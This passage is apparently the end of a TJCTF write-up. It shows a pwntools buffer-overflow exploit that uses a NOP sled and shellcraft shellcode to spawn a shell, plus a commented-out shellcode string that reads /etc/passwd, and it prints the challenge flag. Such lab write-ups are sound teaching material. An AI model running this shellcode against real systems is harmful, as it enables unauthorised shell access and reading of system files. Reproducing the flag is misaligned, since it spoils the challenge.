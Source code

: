 ```python
# shellcode = b'\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41'
shellcode = asm(shellcraft.sh())

payload = flat(
    asm('nop') * offset,
    jump,
    asm('nop')  * (padding - len(shellcode)), 
    shellcode
)

io.sendline(payload)

io.interactive()
```
{% endcode %}

## Flag

> _**tjctf{s4lly\_s3lls\_s34sh3lls\_50973fce}**_

[^1]: basically an instruction that does nothing and will let us 'slide' down towards our shellcode

[^2]: Buffer size

[^3]: offset to overwrite RIP

[^4]: length of our shellcode
